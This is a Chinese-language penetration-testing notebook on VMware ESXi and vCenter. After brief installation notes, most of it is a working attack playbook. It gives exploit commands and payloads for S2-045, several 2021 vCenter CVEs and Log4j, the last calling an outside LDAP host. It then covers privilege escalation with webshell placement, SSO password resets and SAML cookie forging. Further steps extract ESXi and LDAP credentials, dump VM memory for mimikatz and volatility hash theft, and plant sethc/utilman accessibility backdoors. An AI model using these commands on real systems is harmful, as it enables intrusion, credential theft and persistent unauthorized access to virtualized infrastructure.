

安装
ESXI安装
需要在一个未安装系统的电脑（虚拟机）上安装，安装过程就是同意同意，最后输入root密码，最后登录web使用web界面进行管理。
安装完成如图所示
管理界面如图所示
vCenter安装
vCenter是用来管控多个ESXI的，单个ESXI没必要使用vCenter。
常规安装方式是需要连接到ESXI安装，相当于在ESXI安装了一台vCenter的虚拟机。直接下一步下一步就行了。第一阶段中的root密码是vCenter虚拟机的密码，第二阶段SSO的密码是web的登录密码。
比较特殊的安装方式是将vCenter中的ova文件直接导入到虚拟机中，这里可以不用连上ESXI，需要配置一下root密码。 导入完成后访问5480端口进行配置，配置完成后可以直接登录。
查看版本
POST /sdk HTTP/1.1
Host: 192.168.25.137
Cookie: XSRF-TOKEN=LUkPdkLESf6o7foIvzQgQpeGEEVV5mEb; appliance-ui-sessionid=M2QzYzgxZjYtZGQzNy00MmRjLTk4MzYtZjkwNTRlMjRmZGNi; JSESSIONID=AE593F8A3615F7C04EA53A1F13F77F58
Cache-Control: max-age=0
Content-Length: 373
<env:Envelope xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:env="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
<env:Body>
<RetrieveServiceContent xmlns="urn:vim25">
<_this type="ServiceInstance">ServiceInstance</_this>
</RetrieveServiceContent>
</env:Body>
</env:Envelope>
详细版本号可在官网查询
https://kb.vmware.com/s/article/2143838?lang=zh_CN
ESXI操作
esxcli network ip interface list
esxcli network ip interface ipv4 get -i vmk<X>
esxcli network ip interface ipv6 get -n vmk<X>
esxcli network ip interface ipv6 address list
You can retrieve information about DNS with the esxcli network ip dns command in the following two namespaces:
esxcli network ip dns search
esxcli network ip dns server
For information corresponding to the Linux netstat command, use the following ESXCLI command.
esxcli network ip connection list
漏洞
一键化攻击
python2 vCenterExploit.py -s -u https://190.0.0.1:2443
python2 vCenterExploit.py -u https://190.0.0.2:3443 -o unix -c "id"
python2 vCenterExploit.py -u https://190.0.0.2:2443 -log4j '${jndi:ldap://192.68.25.1:1389/${sys:java.version}}'
python2 vCenterExploit.py -u https://190.0.0.2:2443 -shell -o unix -f shell.jsp
S2-045
GET /statsreport/ HTTP/1.1
Host: vcenter:443
Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
Connection: close
Content-Length: 0
CVE-2021-21972-文件上传
漏洞触发点
/ui/vropspluginui/rest/services/uploadova
上传的物理路径是
/usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/42/0/h5ngc.war/resources/
路径不一定通用，需要枚举。
web访问路径是/ui/resources/xx.jsp
使用脚本上传直接枚举路径，获取的是ui权限，需要提权到root。
CVE-2021-21985-JNDI-RCE
jndi需要bypass jdk的高版本，直接脚本打。
获取的是ui权限，需要提权到root
CVE-2021-22005-文件上传
脚本直接打，获取的是root权限。文件上传到了
/usr/lib/vmware-sso/vmware-sts/webapps/ROOT/
这个路径需要root权限才可操作。
web访问路径是/idm/..;/xx.jsp
Log4j2
curl --insecure -vv -H "X-Forwarded-For: \\${jndi:ldap://vcentertest.fccszs.dnslog.cn:1389/lol}" "https://10.100.100.5/websso/SAML2/SSO/vcenter.lab?SAMLRequest="
本地提权
CVE-2021-3156
原版exploit_defaults_mailer.py.yuanban
修改版vCenter_privilege_escalation.py，直接在/usr/lib/vmware-sso/vmware-sts/webapps/openidconnect/写一个webshell。访问路径是
http://xxxx/vmware-sts/openidconnect/xxx.jsp
进web后台
重置web后台密码
获取root权限后使用vmafd-cli查询域名
vsphere.local 域用户在 vCenter 5.5 版本上的密码稍有变化，需要提供 cn=administrator.cn=users.dc=vsphere.dc=local 的格式的帐户 DN 而不是帐户 UPN。
旧版本的 vCenter 5.1，则可以转到 /usr/lib/vmware-sso/utils 文件夹，运行命令 ./rsutil reset-admin-password，输入主密码（这是 root 密码），然后输入要重置的 SSO 管理员名称，例如：admin。出现提示时键入新密码，它将显示"密码重置成功"消息
/usr/lib/vmware-vmafd/bin/vmafd-cli get-domain-name --server-name localhost
使用/usr/lib/vmware-vmdir/bin/vdcadmintool重置密码
Windows 版本的vCenter上，使用命令行工具进入到 %VMWARE_CIS_HOME%\vmdird\ 目录下，执行 vdcadmintool.exe 程序。
linux一句话重置：**(echo "3"&&sleep 1&&echo "administrator@vsphere.local") | /usr/lib/vmware-vmdir/bin/vdcadmintool**
Windows和Linux都可以使用python脚本直接重置
vCenterResetPassword.py
saml证书提取可登录的cookie
https://github.com/horizon3ai/vcenter_saml_login
python-ldap有点搞
先安装
apt-get install build-essential python3-dev python2.7-dev \
libldap2-dev libsasl2-dev slapd ldap-utils tox \
lcov valgrind
再安装
pip install python-ldap
找到data.mdb
Linux:
Windows
运行获得cookie
python3 vcenter_saml_login.py -p data.mdb -t 192.168.25.137
ldap管理用户
首先需要获取ldap管理员的密码才能够添加用户
密码保存文件位置
# Linux
/var/lib/likewise/db/active.db
/var/lib/likewise/db/registry.db
/storage/service-state/likewise/registry.db
# Windows
reg query "HKLM\SYSTEM\CurrentControlSet\services\VMwareDirectoryService" /v dcAccount
reg query "HKLM\SYSTEM\CurrentControlSet\services\VMwareDirectoryService" /v dcAccountDN
reg query "HKLM\SYSTEM\CurrentControlSet\services\VMwareDirectoryService" /v dcAccountPassword
直接查询ldap管理员密码
/opt/likewise/bin/lwregshell list_values [HKEY_THIS_MACHINE\\services\\vmdir]
vCenterLDAPManage_linux_python3.py可以在本地直接加用户
vCenter_addUser_remotely_python3.py可以远程加用户，Linux需要下载db文件，Windows需要指定密码
获取虚拟机权限
从快照提取虚拟机的hash
列出虚拟机
SharpSphere.exe list --url https://192.168.25.134/sdk --username administrator@test.com --password "!QAZ2wsx"
 下载指定虚拟机的快照，如不存在快照需要创建
下载指定虚拟机的快照，如不存在快照需要创建
创建可以web后台创建，也可以用此工具创建，在下载后指定--snapshot代表先创建一个快照然后下载。
SharpSphere.exe dump --url https://192.168.25.134/sdk --username administrator@test.com --password "!QAZ2wsx" --targetvm win10 --destination C:\Users\admin\Desktop\vcneter
下载后会生成一个大文件和一个小文件，一个4G的和一个3.5M的，大文件大小跟内存有关。
使用vmss2corex来提取
win8及以上的系统需要加-W8参数，其他直接-W
先指定小文件，再指定大文件
vmss2core-sb-8456865.exe -W8 zs5k2ypj.uhv 1lagz1jn.xae
将生成的dmp拖到windbg中调试。windbg最好用sdk工具安装，不然会有问题。
加载mimikatz
.load C:\mimilib.dll
定位lsass.exe进程地址，运行mimikatz
0: kd> !process 0 0 lsass.exe
Unable to get program counter
PROCESS ffffb408bbedb080
SessionId: 0 Cid: 0260 Peb: 539cc78000 ParentCid: 01d0
DirBase: 11b652000 ObjectTable: ffff860f79142d40 HandleCount: 1135.
Image: lsass.exe
0: kd> .process /r /p ffffb408bbedb080
Implicit process is now ffffb408`bbedb080
Loading User Symbols
................................................................
....................
0: kd> !mimikatz
或者下载好快照vmem文件后，使用volatility提取。
volatility_2.6_win64_standalone.exe -f xxx.vmem --profile=系统架构 lsadump
在ESXI本地提取hash
原则上还是利用快照提取，只不过是在本地直接提取，不用下载快照。
假设当前有vCenter的权限，但是快照存在ESXI上面，需要获取ESXI的权限并且ESXI开启了SSH服务。
如果ESXI没有开启ssh，可以在vCenter中开启。 postgresql数据库配置文件：
C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx
/etc/vmware-vpx/vcdb.properties
psql -h localhost -d VCDB -U vc
查询虚拟机
SELECT id,datacenter_id,file_name,guest_os,ip_address,config FROM vc.vpx_vm;
查询ESXI用户密码
SELECT name,username,password,password_last_upd_dt FROM vc.vpxv_hosts;
一键查询导出vpsuser用户密码
psql -h 127.0.0.1 -p 5432 -U vc -w HKJrm8yP2)aDWptU -d VCDB -c "select ip_address,user_name,password from vpx_host;" > password.enc
解密vpxuser密码，如果有root就可以直接登录root
# Windows
C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\ssl\symkey.dat
# Linux
/etc/vmware-vpx/ssl/symkey.dat
给虚拟机打好快照后，用volatility读取内存快照
./volatility -f /vmfs/volumes/620b3190-c2d721da-84e5-000c29395ece/win10/win10-Snapshot1.vmem --profile=win1
0x64 hashdump
注意profile参数对应的平台
Profiles
--------
VistaSP0x64 - A Profile for Windows Vista SP0 x64
VistaSP0x86 - A Profile for Windows Vista SP0 x86
VistaSP1x64 - A Profile for Windows Vista SP1 x64
VistaSP1x86 - A Profile for Windows Vista SP1 x86
VistaSP2x64 - A Profile for Windows Vista SP2 x64
VistaSP2x86 - A Profile for Windows Vista SP2 x86
Win10x64 - A Profile for Windows 10 x64
Win10x64_10586 - A Profile for Windows 10 x64 (10.0.10586.306 / 2016-04-23)
Win10x64_14393 - A Profile for Windows 10 x64 (10.0.14393.0 / 2016-07-16)
Win10x86 - A Profile for Windows 10 x86
Win10x86_10586 - A Profile for Windows 10 x86 (10.0.10586.420 / 2016-05-28)
Win10x86_14393 - A Profile for Windows 10 x86 (10.0.14393.0 / 2016-07-16)
Win2003SP0x86 - A Profile for Windows 2003 SP0 x86
Win2003SP1x64 - A Profile for Windows 2003 SP1 x64
Win2003SP1x86 - A Profile for Windows 2003 SP1 x86
Win2003SP2x64 - A Profile for Windows 2003 SP2 x64
Win2003SP2x86 - A Profile for Windows 2003 SP2 x86
Win2008R2SP0x64 - A Profile for Windows 2008 R2 SP0 x64
Win2008R2SP1x64 - A Profile for Windows 2008 R2 SP1 x64
Win2008R2SP1x64_23418 - A Profile for Windows 2008 R2 SP1 x64 (6.1.7601.23418 / 2016-04-09)
Win2008SP1x64 - A Profile for Windows 2008 SP1 x64
Win2008SP1x86 - A Profile for Windows 2008 SP1 x86
Win2008SP2x64 - A Profile for Windows 2008 SP2 x64
Win2008SP2x86 - A Profile for Windows 2008 SP2 x86
Win2012R2x64 - A Profile for Windows Server 2012 R2 x64
Win2012R2x64_18340 - A Profile for Windows Server 2012 R2 x64 (6.3.9600.18340 / 2016-05-13)
Win2012x64 - A Profile for Windows Server 2012 x64
Win2016x64_14393 - A Profile for Windows Server 2016 x64 (10.0.14393.0 / 2016-07-16)
Win7SP0x64 - A Profile for Windows 7 SP0 x64
Win7SP0x86 - A Profile for Windows 7 SP0 x86
Win7SP1x64 - A Profile for Windows 7 SP1 x64
Win7SP1x64_23418 - A Profile for Windows 7 SP1 x64 (6.1.7601.23418 / 2016-04-09)
Win7SP1x86 - A Profile for Windows 7 SP1 x86
Win7SP1x86_23418 - A Profile for Windows 7 SP1 x86 (6.1.7601.23418 / 2016-04-09)
Win81U1x64 - A Profile for Windows 8.1 Update 1 x64
Win81U1x86 - A Profile for Windows 8.1 Update 1 x86
Win8SP0x64 - A Profile for Windows 8 x64
Win8SP0x86 - A Profile for Windows 8 x86
Win8SP1x64 - A Profile for Windows 8.1 x64
Win8SP1x64_18340 - A Profile for Windows 8.1 x64 (6.3.9600.18340 / 2016-05-13)
Win8SP1x86 - A Profile for Windows 8.1 x86
WinXPSP1x64 - A Profile for Windows XP SP1 x64
WinXPSP2x64 - A Profile for Windows XP SP2 x64
WinXPSP2x86 - A Profile for Windows XP SP2 x86
WinXPSP3x86 - A Profile for Windows XP SP3 x86
挂载kon-boot绕过验证
2.7版本只适用win7及以下
在虚拟机上挂PE系统
这种操作跟重装系统一样，挂一个PE，从PE启动。
注意虚拟机的系统，确定是UEFI启动还是BIOS启动，一般win8以上的系统都是UEFI启动，注意调成ISO对应的启动方式。 进入PE后可以随心所欲了，PE系统提供了一个直接修改用户密码的工具。 如果要获取当前用户的密码，需要把工具弄上去，但是虚拟机无法进行文件交互，所以只能将工具拖到PE镜像里去，让他自己加载。
由于一开始用的PE系统是32位的，工具各种都用不了，后面又找了一个64位的PE系统，然后用之前的引导程序成功加载64位PE。
找到PE系统中的WIM文件，用压缩包打开，要什么工具直接往里拖。
 随后用UltraISO重新打包成ISO
进入PE系统后把工具拖出来直接用，需要注意的是运行工具会报缺少dll，这个时候需要把cmd目录切换到system32下，或者将C盘system32目录加到PE系统的环境变量下。
随后导出SAM和SYSTEM直接提取hash
随后用UltraISO重新打包成ISO
进入PE系统后把工具拖出来直接用，需要注意的是运行工具会报缺少dll，这个时候需要把cmd目录切换到system32下，或者将C盘system32目录加到PE系统的环境变量下。
随后导出SAM和SYSTEM直接提取hash
最好直接使用system32\config目录下的SAM和system，信息比较完全，这里没有提到NTLM，不知道是什么情况  还可以加个后门，为所欲为
move c:\windows\system32\Magnify.exe c:\windows\system32\Magnify1.exe
move C:\windows\system32\Utilman.exe C:\windows\system32\Utilman1.exe
move C:\windows\system32\osk.exe C:\windows\system32\osk1.exe
move C:\windows\system32\sethc.exe C:\windows\system32\sethc1.exe
copy c:\windows\system32\cmd.exe c:\windows\system32\Magnify.exe
copy C:\windows\system32\cmd.exe C:\windows\system32\Utilman.exe
copy C:\windows\system32\cmd.exe C:\windows\system32\osk.exe
copy C:\windows\system32\cmd.exe C:\windows\system32\sethc.exe
C:\ProgramData\VMware\vCenterServer\data\vmdird\data.mdb
/storage/db/vmware-vmdir/data.mdb